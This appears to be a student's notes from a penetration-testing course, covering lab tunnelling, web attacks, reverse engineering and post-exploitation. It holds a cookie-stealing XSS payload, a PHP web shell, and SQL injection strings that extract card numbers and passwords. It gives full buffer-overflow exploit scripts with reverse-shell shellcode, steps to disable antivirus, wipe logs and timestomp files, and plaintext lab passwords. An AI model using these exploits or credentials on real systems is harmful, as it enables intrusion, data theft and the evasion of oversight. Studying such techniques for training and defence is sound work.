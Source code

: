 https://github.com/Misfit51/COSC/blob/main/Networking%20v2



Stack    Username        Password          JumpBox
19 	    RYVA-503-M 	  KolgrymTG7RdBub 	 10.50.27.69

Lin Ops - 10.50.32.116 (https://vta.cybbh.space/project/instances/)(Domain for login is IPA)
CTFD - http://10.50.20.30:8000/
FG - https://sec.cybbh.io/public/security/latest/lessons/lesson-1-pentest_sg.html

For WIN-OPs xfreerdp /v:10.50.38.228 /u:student /glyph-cache /dynamic-resolution /clipboard

ssh -X student@10.50.32.116 
@linops: ssh -MS /tmp/jump student@10.50.27.69
@linops: ssh -S /tmp/jump dummy -O forward -D9050   ###Different port forwarding to allow proxychains

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done

proxychains nmap 192.168.28.97,98,100,105,111,120

proxychains nc 192.168.28.100 80
proxychains nc 192.168.28.111 80

ssh -S /tmp/jump dummy -O forward -L1111:192.168.28.100:80 -L2222:192.168.28.111:80 -L3333:192.168.28.111:22   ###tunnel to webpages and ssh (Replace forward with cancel to kill connection)

firefox 127.0.0.1:1111   ###To open a webpage after a tunnel is setup

ssh -MS /tmp/t1 student@127.0.0.1 -p 3333

ssh -S /tmp/t1 dummy -O forward -L4444:192.168.50.100:22

ssh -MS /tmp/t2 credentials@127.0.0.1 -p 4444

### 192.168.150.245 tunnels
ssh -MS /tmp/jump student@10.50.27.69
ssh -S /tmp/jump dummy -O forward -D9050
ssh -S /tmp/jump dummy -O forward -L1111:192.168.28.120:4242
ssh -MS /tmp/t1 student@127.0.0.1 -p 1111
ssh -S /tmp/jump dummy -O cancel -D9050
ssh -S /tmp/t1 dummy -O forward -D9050
ssh -S /tmp/t1 dummy -O forward -L2222:192.168.150.245:9999

# Pen Testing Overview

Phase 1:Mission Definition
  Define mission goals
  Determine scope of mission
  Define ROE

Phase 2:Recon
  Information gathering about the target through public sources

Phase 3:Footprinting
  Accumulate data through scanning and/or interaction with the target/target resources

Phase 4:Exploitation & Initial Access
  Gain an initial foothold on network

Phase 5:Post-Exploitation
  Establish persistence
  Escalate privileges
  Cover your tracks
  Exfiltrate target data

Phase 6:Document Missions
  Document and report mission details

Pen Test Reporting
  OPNOTES
  Executive summary
  Technical summary
  Reasons to report
  What to report
  Screen captures

### Vulnerability and Exploit research###
  Exploit-db

### Scanning and Recon###
  OSINT

#Scrapting Data Script
pip install lxml requests

#!/usr/bin/python

import lxml.html
import requests

page = requests.get('http://quotes.toscrape.com')
tree = lxml.html.fromstring(page.content)

authors = tree.xpath('//small[@class="author"]/text()')

print ('Authors: ',authors)

### Only things that will change in script are the website and xpath

Advanced scanning techniquws
  1.Host discovery
    Find hosts that are online (ping sweep)
  2.Port Enumeration
    Find ports for each host that is online
  3.Port Interrogation
    Find what service is running on each open/available port

proxychains nmap --script=http-enum 192.168.28.100
ls -l /usr/share/nmap/scripts   ###Where the scripts are stored, grep what you want

*********************************************************************************************************************

# Web Exploitation
# Day 2 (XSS)

### HTTP
Request/Response
  Various tools to view
    tcpdump
    wireshark
    Developer Console

HTTP Methods
  GET
  POST
  HEAD
  PUT

HTTP Response Codes
  4xx = Client side
  5xx = Server side

Cookie = file set locally on system from website

robots.txt is step 1

## Cross-Site Scripting (XSS) Overview

Reflected XSS
  Delivered through intermediate media, such as a link in an email
  Characters are noramlly illegal in URLs can be Base64 encoded

Stored XSS
  Resides on vulnerable website
  Only requires user to visit page

### python3 -m http.server
### <script>document.location="http://10.50.32.116:8000/"+document.cookie;</script>

## Malicious file uploads

<HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>

  ## Command Injection

  ;

  ssh-keygen -t rsa -b 4096   ###Regenerates ssh keys (ssh keys are stored in home as a hidden file)
  cat .ssh/id_rsa.pub

  rm -rf old .ssh from www (/var/www/.ssh)
  mkdir new .ssh
  copy id_rsa.pub into command, " > /var/www/.ssh/authorized_keys
  ssh -i .ssh/id_rsa www-data@10.50.xx.xx (-i specifies which key to use)(Hope it works)

  ssh -S /tmp/jump dummy -O forward -L1111:10.100.28.40:80 -L2222:10.100.28.40:4444 -L3333:10.100.28.48:80 -L4444:10.100.28.48:4444

  # Day 3 
  # SQL

  Select - Extracts data from database
  Union - Combine the result set of two or more select statement

  mysql (loads sql database)
  show databases; (default databases are information_schema, mysql and performance_schema)
  SHOW tables FROM session; (session database)
  SHOW columns FROM session.Tires;
  SELECT tireid,name,size,cost FROM session.Tires;
  Show columns from session.car;
  SELECT tireid,name,cost,size FROM session.Tires UNION SELECT carid,name,color,cost FROM session.car;
  
  ## SQL Injection

' OR 1='1 

; ls to test

  F12 for dev console
  HTTP GET request from URL field with POST request
  ex.) http://10.50.26.140/login.php?username=%27OR+1%3D%271&passwd=%27OR+1%3D%271

  ## POST Method
  ## Step 1.) ID Vulnerable Field 
  Audi ' OR 1='1  
  ## Step 2.) Identify number of columns 
  Audi ' UNION SELECT 1,2,3,4,5 #
  ## Step 3.) Create Golden Statement
  Audi ' UNION SELECT table_scheme,2,table_name,column_name,5 FROM information_schema.columns #
  Audi ' UNION SELECT {column},{column},{column} FROM database.table #
  ## Step 4.) Craft Query 
  Audi ' UNION SELECT studentID,2,username,passwd,5 FROM session.userinfo #
  Audi ' UNION SELECT 1,2,name,pass,5 FROM session.user #

  ## GET Method
  ## Identify vulnerable field (selection 2)
  Done in URL
  http://10.50.26.140/uniondemo.php?Selection=2 OR 1=1   #On all options until vulnerable one is found
  ## ID # of columns
  ?Selection=2 UNION SELECT 1,2,3
  ## Golden Statement (remember the order displayed 1,2,3)
  ?Selection=2 UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
  ?Selection=2 UNION SELECT id,pass,name FROM session.user
  ?Selection=2 UNION SELECT id,pass,@@version FROM session.user
  ## Annotate databases, tables, columns
  Database: session, otherdb
  
  Session
  Tables: Tires, car, session_log, user, userinfo

  Otherdb
  Tables: more, infor
  
  Columns 
  (Tires): tireid, name, size, cost
  (car): carid, name, type, cost, color, year

  delete from comment where ID = 57 ;
  
  **************************************************************************************************
  sqlinjection	  orders	  id
  sqlinjection	  orders	  date
  sqlinjection	  orders	  member
  sqlinjection	  payments	  id
  sqlinjection	  payments	  creditcard_number
  sqlinjection	  payments	  date
  sqlinjection	  payments	  order
  sqlinjection	  permissions	  id
  sqlinjection	  permissions	  level
  sqlinjection	  permissions	  name
  sqlinjection	  permissions	  description
  sqlinjection	  products	  id
  sqlinjection	  products	  name

  .php?category=1 UNION SELECT id,creditcard_number,3 FROM sqlinjection.payments
  
   
  ******************************************************************************************************************************

  # Day 4
  # Reverse Enginnering

  ### X86_64 Assembly
  
  Heap
  Stack
  General Register
  Control Register
  Flags Register

  ### Reverse Engineering Workflow
  Static
  Behavioral
  Dynamic
  Disassembly
  Document Findings

  main:
    mov rax, 16     //Moving into rax the value of 16
    push rax        //Pushing value in rax (16) onto the stack. RSP is pushed up by 8 bytes
    jmp mem2        //Jump to mem2 function

  mem1:
    mov rax, 0      //Moving into rax the value of 0
    ret             //Return 

  mem2:
    pop r8          //Popping value (16) off of stack and storing it in r8. RSP falls by 8 bytes
    cmp rax, r8     //Compare to rax value (16) the value of r8 (16) 
    je mem1         //Previous comparison ends with zero flag set; jump to mem1



  main:
    move rcx, 25    //Moving into rcx the value of 25
    mov rbx, 62     //Moving into rbx the value of 62
    jmp mem1        //Jump to mem1

  mem1:
    sub rbx, 40     //Subtract from the value in rbx (62) 40. Result is rbx=22.
    mov rsi, rbx    //Moving into rsi the value of rbx (22)
    cmp rcx, rsi    //Compare to rcx (25) the value of rsi (22)
    jmple mem2      //Zero flag is not set. RSI < RCX. Jump to mem2

    

  mem2:
    mov rax, 0      //Moving into rax the value of 0
    ret             //Return


# Patching

Find success / failure
Adjust

# Exploit Development

Buffer Overflow Defenses
  Non executable (NX) stack
  Address Space Layout Randomization (ASLR)
  Data Execution Prevention (DEP)
  Stack Canaries
  Position Independent Executable (PIE)

chmod +x
disass <FUNCTION>    Disassemble portion of the program
info <...>    Supply info for specific stack areas
x/256c $<REGISTER>  Read characters from specific adapter
break <address>    Establish a break point

run <<<$(echo "<string>")
info functions    (shows all functions)
pdisass main     (disassembles main function)
pdisass <whatever function>   

env - gdb ./func
show env
unset env COLUMNS
unset env LINES
run        (enter a string thats to long)

For buffer # - https://wiremask.eu/tools/buffer-overflow-pattern-generator/
Use the default 200 characters set as buffer. Once run, copy the EIP, get the offset number from wiremask as the new buffer = "A" * <blank> number

env - gdb ./func
run (Enter enough characters to cause segmentation fault)
info proc map          (Note first address after heap, last address of stack: 0xf7de1000, 0xffffe000 for this example)
find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4    
Grab the first 4 and reverse them
  Like so:
  0xf7de3b59 -> 0xf7 de 3b 59 -> "\x59\x3b\xde\xf7"
  0xf7f588ab -> 0xf7 f5 88 ab -> "\xab\x88\xf5\xf7"
  0xf7f645fb -> 0xf7 f6 45 fb -> "\xfb\x45\xf6\xf7"
  0xf7f6460f -> 0xf7 f6 46 0f -> "\x0f\x46\xf6\xf7"

Set eip in script to the top reversed value

Run: msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python     (shell code, copy and paste into python script)
Create nop sled: nop = "\x90" * 15
Add eip, nop and buff to print: print(buffer+eip+nop+buf)

msfvenom --list payloads

./func <<<$(python linbuff.py)   If segmentation fault, unfuck it

### Complete script example
 #!/usr/bin/env python
  2 
  3 #stack is between 0xf7de1000 and 0xffffe000
  4 
  5 #0xf7de3b59 -> 0xf7 de 3b 59 -> "\x59\x3b\xde\xf7"
  6 #0xf7f588ab -> 0xf7 f5 88 ab -> "\xab\x88\xf5\xf7"
  7 #0xf7f645fb -> 0xf7 f6 45 fb -> "\xfb\x45\xf6\xf7"
  8 #0xf7f6460f -> 0xf7 f6 46 0f -> "\x0f\x46\xf6\xf7"
  9 
 10 
 11 buffer = "A" * 62
 12 eip = "\x0f\x46\xf6\xf7"
 13 
 14 nop = "\x90" * 15 
 15 
 16 buf =  b""
 17 buf += b"\xdd\xc7\xbf\x77\xb9\x5e\x18\xd9\x74\x24\xf4\x5d"
 18 buf += b"\x33\xc9\xb1\x0a\x83\xc5\x04\x31\x7d\x15\x03\x7d"
 19 buf += b"\x15\x95\x4c\x34\x13\x01\x36\x9b\x45\xd9\x65\x7f"
 20 buf += b"\x03\xfe\x1e\x50\x60\x68\xdf\xc6\xa9\x0a\xb6\x78"
 21 buf += b"\x3f\x29\x1a\x6d\x3c\xad\x9b\x6d\x2a\xc9\x9b\x3a"
 22 buf += b"\xff\x98\x7d\x09\x7f"
 23 
 24 print(buffer+eip+nop+buf)


# Windows Buffer Overflow

### Static
Z:\strings .\secureserverind.exe
type .\secureserverind.exe


### Behavioral
@winops: .\secureserverind.exe   (Run the program, open Resource Monitor, look at connections)
@linops: nc 10.50.38.228 9999 (Interact from linops, enter stuff)
@linops: make script

  #!/usr/bin/env python
  import socket

  buf = "TRUN /.:/"
  buf += "A" * 50

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(("10.50.38.228", 9999))
  print s.recv(1024)
  s.send(buf)
  print s.recv(1024)

  s.close()

@linops: chmod +x
@linops: run it (if no crash, make buffer larger)
@winops: Run immunity debugger. Open secureserverind inside the debugger
@linops: Go to wiremask. Set length to 10000, make it buf in script, run it 
@winops: Process will pause. Copy EIP (386F4337), use it to find offset in wiremask (2003)
@winops: Rewind and play again
@linops: update script with offset, add buf += "BBBB"
@linops: Run script
@winops: Find EIP, should be 42424242 (BBBB), rewind and play, enter "!mona modules" at bottom to find vulnerable dlls (essfunc)
@winops: !mona jmp -r esp -m "essfunc.dll" (also go to windows options, select 2 log data) This will give memory addresses, grab the first 4
@linops: Paste first 4, reverse them
@linops: Add nop sled (buf += "\x90" * 15)
@linops: run - msfvenom -p windows/shell/reverse_tcp lhost=10.50.32.116 lport=35169 -b "\x00" -f python
@linops: Paste the shell code output into script, save
@winops: go to carrot, open windows security, virus and threat protection, disable real time protection
@linops: New windows, msfconsole, use multi/handler, show options, set payload windows/meterpreter/reverse_tcp
@linops: set LHOST 0.0.0.0, set LPORT 35169, run
@linops: In other window, run python script, meterpreter session should be established

Final Script:

#!/usr/bin/env python
import socket

#625012A0 -> "\xa0\x12\x50\x62"
#625012AD -> "\xad\x12\x50\x62"
#625012BA -> "\xba\x12\x50\x62"
#625012C7 -> "\xc7\x12\x50\x62"

buf = "TRUN /.:/"
buf += "A" * 2003
buf += "\xa0\x12\x50\x62"
buf += "\x90" * 15
buf += b"\xb8\xb4\xfa\xda\x87\xda\xdc\xd9\x74\x24\xf4\x5a"
buf += b"\x33\xc9\xb1\x59\x83\xc2\x04\x31\x42\x10\x03\x42"
buf += b"\x10\x56\x0f\x26\x6f\x19\xf0\xd7\x70\x45\xc0\x05"
buf += b"\x14\x0e\x70\x9a\x5c\xf5\xfe\x88\x52\x7e\x52\x39"
buf += b"\xe0\xf2\x7b\x70\x09\xfd\xcc\x38\xd3\x30\xf3\x11"
buf += b"\x27\x53\x8f\x6b\x74\xb3\xae\xa3\x89\xb2\xf7\x75"
buf += b"\xe7\x5b\xa5\x0e\x55\xb3\xc1\x53\x66\xb2\x05\xd8"
buf += b"\xd6\xcc\xf2\x5a\x16\x58\xb1\x65\x47\x2b\x11\x46"
buf += b"\xec\x63\xba\xd6\xf3\xa0\x3f\x1f\x87\x7a\x71\x5f"
buf += b"\x21\x09\x45\x14\xb3\xdb\x97\xea\x18\x22\x18\xe7"
buf += b"\x61\x63\x9f\x18\x14\x9f\xe3\xa5\x2f\x64\x99\x71"
buf += b"\xa5\x7a\x39\xf1\x1d\x5e\xbb\xd6\xf8\x15\xb7\x93"
buf += b"\x8f\x71\xd4\x22\x43\x0a\xe0\xaf\x62\xdc\x60\xeb"
buf += b"\x40\xf8\x29\xaf\xe9\x59\x94\x1e\x15\xb9\x70\xfe"
buf += b"\xb3\xb2\x93\xe9\xc4\x3b\x6c\x16\x99\xab\xa0\xdb"
buf += b"\x22\x2b\xaf\x6c\x50\x19\x70\xc7\xfe\x11\xf9\xc1"
buf += b"\xf9\x20\xed\xf1\xd6\x8a\x7e\x0c\xd7\xea\x57\xcb"
buf += b"\x83\xba\xcf\xfa\xab\x51\x10\x02\x7e\xcf\x1a\x94"
buf += b"\x8b\x3d\x3b\x10\xe4\x43\x3b\x51\x95\xca\xdd\x31"
buf += b"\x06\x9c\x71\xf2\xf6\x5c\x22\x9a\x1c\x53\x1d\xba"
buf += b"\x1e\xbe\x36\x51\xf1\x16\x6e\xce\x68\x33\xe4\x6f"
buf += b"\x74\xee\x80\xb0\xfe\x1a\x74\x7e\xf7\x6f\x66\x97"
buf += b"\x60\x8f\x76\x68\x05\x8f\x1c\x6c\x8f\xd8\x88\x6e"
buf += b"\xf6\x2e\x17\x90\xdd\x2d\x50\x6e\xa0\x07\x2a\x59"
buf += b"\x36\x27\x44\xa6\xd6\xa7\x94\xf0\xbc\xa7\xfc\xa4"
buf += b"\xe4\xf4\x19\xab\x30\x69\xb2\x3e\xbb\xdb\x66\xe8"
buf += b"\xd3\xe1\x51\xde\x7b\x1a\xb4\x5c\x7b\xe4\x4a\x4b"
buf += b"\x24\x8c\xb4\xcb\xd4\x4c\xdf\xcb\x84\x24\x14\xe3"
buf += b"\x2b\x84\xd5\x2e\x64\x8c\x5c\xbf\xc6\x2d\x60\xea"
buf += b"\x87\xf3\x61\x19\x1c\x04\x1b\x52\xa3\xe5\xdc\x7a"
buf += b"\xc0\xe6\xdc\x82\xf6\xdb\x0a\xbb\x8c\x1a\x8f\xf8"
buf += b"\x9f\x29\xb2\xa9\x35\x51\xe0\xaa\x1f"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.50.38.228", 9999))
print s.recv(1024)
s.send(buf)
print s.recv(1024)

s.close()


# Post Exploitation

chmod 600 /home/student/stolenkey
ssh -i home/student/stolenkey jane@1.2.3.4

### User Enumeration
net user - Windows
cat /etc/passwd - Linux

### Process Enumeration
tasklist /v - Windows
ps -elf - Linux

### Service Enumeration
tasklist /svc - Windows
systemctl --type=service - Linux

### Network Connection Enumeration
ipconfig /all - Windows
ipa - Linux     Once on a linux box, cat /etc/hosts

### Data Exfil
scp <source> <destination> 

Local to remote
scp /path/to/file student@10.10.10.10:/path/to/dest/file/txt

Remote to local
scp student@10.10.10.10:/path/to/file.txt .

ssh -MS /tmp/jump studnet@12.12.12.12

ssh -S /tmp/jump dummy -O forward -L1111:192.168.1.1

/etc/crontab
var/spool/crontab

  Examples from Post Ex
  
scp stolenkey student@10.50.32.116:/home/student
proxychains ssh -i /home/student/stolenkey comrade@192.168.150.253 -p 3201
comrade::StudentMidwayPassword
ssh -S /tmp/t2 dummy -O forward -L3333:192.168.28.9:5985
ssh -S /tmp/t2 dummy -O forward -L4444:192.168.28.9:47001
ssh -S /tmp/t2 dummy -O forward -L5555:192.168.28.9:3389
xfreerdp /v:127.0.0.1:5555 /u:comrade /glyph-cache /dynamic-resolution /clipboard

### Privilage Escalation Windows
Integrity - Levels Anonymous SID access token
Untrusted - Everyone SID access token (World)
Low - Everyone SID access token
Medium - Authenticated Users
High - Admin
System - System services

UAC User Account Control

PS Z:\> .\sigcheck.exe -m -accepteula C:\Windows\System32\eventvwr.exe

Scheduled Tasks: Permissions to Run as SYSTEM

Demo:
Services 
Take note of when it runs, path to executable, do we have write access to that directory?

DLL Highjacking:
.\Procmon -accepteula
Filter: Process name, contains, putty.exe
        Path, contains, .dll
        Result, is, NAME NOT FOUND

msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > C:\users\student\desktop\whoami.txt' -f dll > SSPICLI.dll
scp studnet@ip:/home/student/SSPICLI.dll C:\users\student\desktop
drop dll in file -> run, kill the service if already running with (get-process | ? {$_.name -contains "putty"}).kill()

.exe Replacement:
(Write to directory and rename it)
msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > C:\users\student\desktop\whoami.txt' -f dll > putty.exe
scp studnet@ip:/home/student/putty.exe C:\users\student\desktop

Use run keys for persistance (HKLM specifically)

auditpol /get /category:*
auditpol /get /category:* | findstr /i "success failure"

Microsoft Event IDs
4624/4625 Successful/failed login
4720 Account created
4672 Administrative 

msfvenom -l payloads

### Privilage Escalation Linux
Sudo Gotchas
vim, cat, grep, can access files not intended
!/bin/bash gives you a shell

IF SUDO FOR ANYTHING - https://gtfobins.github.io/

SUID/SGID
ls -l $(which passwd) will show suid bit
suid bit - run as permissions of the user owner
sticky bit - for any directory where it is turned on, only the user who created it can delete it

find / -type f -perm /4000 -ls 2>/dev/null # Find SUID only files
find / -type f -perm /2000 -ls 2>/dev/null # Find SGID only files
find / -type f -perm /6000 -ls 2>/dev/null # Find SUID/SGID files
START AT THE TOP

CRON - scheduled tasks
crontab -l # lists cronjobs
crontab -e # make cronjob
crontab -r # remove cronjob
crontab -u <user> -l # list other users cronjobs
ls -l /var/spool/cron/crontabs # user level cronjobs
cat /etc/crontab # system level cronjobs
crontab.guru - for cronjob time help
ls -l /etc/cron.hourly
ls -l /etc/cron.daily
ls -l /etc/cron.weely
ls -l /etc/cron.monthly

World Writable Files and Folders
locations: /tmp, /var/tmp
find / -type d -perm /2 -ls 2>/dev/null # find world writable directories

Dot '.' in PATH (pwd)

Vulnerable Software in Services
mess with it, see what it does, exploit

### Persistence
Adding or Hijacking a user account
you can make an account by editting /etc/passwd

### Artifiacts
lsof

### NIX-ism
unset HISTFILE
Be aware of init system in use, SYSTEMV, SYSTEMD # ps -p 1

Figure out init type
ls -latr /proc/1/exe
stat /sbin/init

Auditing SystemD
journalctl _TRANSPORT=audit
journalctl _TRANSPORT=audit | grep 603

Logs for Covering Tracks
/var/log

Working with logs
journalctl -f -u ssh
journalctl -q SYSLOG_FACILITY=10 SYSLOG_FACILITY=4

Cleaning logs
Save INODE number, mv, cp, cat
Nuclear
rm -rf /var/log/...
cat /dev/null > /var/log/...
echo > /var/log/...
Precise
egrep

Timestomp (Nix)
touch -c -t 202112151856 test # changes the timestamp of test, stat test releaves the change
touch -r msfinstall test # changes test to have msfinstalls timestamps, stat looks clean

Remote logging
/etc/rsyslog.conf # older versions
/etc/rsyslog.d/* # more modern
Find out, grep "Include
<facility>.<priority>
older format, @ = udp, @@ = tcp

DEMO
sudo -l # always first
apt-get permissions, wtf is that, gtfobins knows
sudo apt-get changelog apt # gives a pager of info
!/bin/sh # inside the pager
we now have a shell, run id, its root

Demo 2
sudo -l
we have cat /var/log/syslog* permissions, * being anything, cat being contatinate
sudo cat /var/log/syslog /etc/shadow # This works, wild
find / -type f -perm /6000 -ls 2>/dev/null # look for anything strange that root owns
cat /etc/shadow # because suid bit is set
gtfobins nice # IGNORE the install instruction
nice /bin/sh -p, check euid


# Test Review

Recon
  Nmap (--script)
  Ping Sweep
  Web Page
  cat /etc/hosts
  cat /etc/passwd
  sudo -l
  Enumerate World Writable Directories
  SUID SGID binaries
  ps -elf, arp -a, ss -antp, ip n, ip a, uname -a, ls -al, ip route
  Check all crontab locations, var/spool/cron/crontab, etc/crontab, etc/cron.d 
  
Web Ex
  SQL Injection
  Auth Bypass
    Test with 1=1
  Directory Traversal
    "File to search for"
  Malicious File Upload
  Command Injection
    ; whoami
    
Reverse Enginnering
  Bit shifting, x << 4 = 16, x = 1 because 16 8 4 2 1

Exploit Dev
  Already given everything, pull back to box, break it (buffer overflow), modify, execute
   
Post Ex
  Remote logging = check rsyslog, check for security products

Win Exp
  DLL Highjacking, or Exe replacement. Auditpol. 
  
Lin Exp
  GTFOBins 
